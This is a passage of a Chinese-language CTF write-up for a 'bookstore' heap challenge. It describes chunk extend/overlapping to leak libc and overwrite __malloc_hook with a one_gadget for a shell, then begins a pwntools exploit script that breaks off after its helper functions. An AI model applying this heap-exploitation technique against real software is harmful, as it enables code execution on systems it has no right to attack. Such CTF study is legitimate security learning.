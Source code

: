 这道题就是个chunk extend/overlapping,通过extend/overlapping来修改一些已经malloc的chunk的size域为small chunk而不属于fast chunk的范围,从而导致free该chunk的时候被放入unsorted bin,从而可以leak出libc地址跟计算出one_gadget的地址,进而修改fd指针指向__malloc_hook的附近的位置.从而控制程序执行流获得一个shell.

bookstore这道题有意思的多.

附上原帖贴主的exp

#------------------------------------------------------------------------------------------------------------------------------------

#!/usr/bin/env python

# -*- coding: UTF-8 -*-

# imports

from pwn import *

import time

import os

import sys

elf = ""

libc = ""

env = ""

LOCAL = 1

context.log_level = "debug"

p = process("./bookstore", env={"LD_PRELOAD":"/tmp/ironthree/book/libc_64.so"})

#p = remote("ip", port) #uncomment this.

p.recvuntil("choice:\n")

def add(name, length, book):

p.sendline("1")

p.recvuntil("name?\n")

p.send(name)

p.recvuntil("name?\n")

p.sendline(str(length))

p.recvuntil("book?\n")

p.send(book)

p.recvuntil("choice:\n")

def sell(idx):
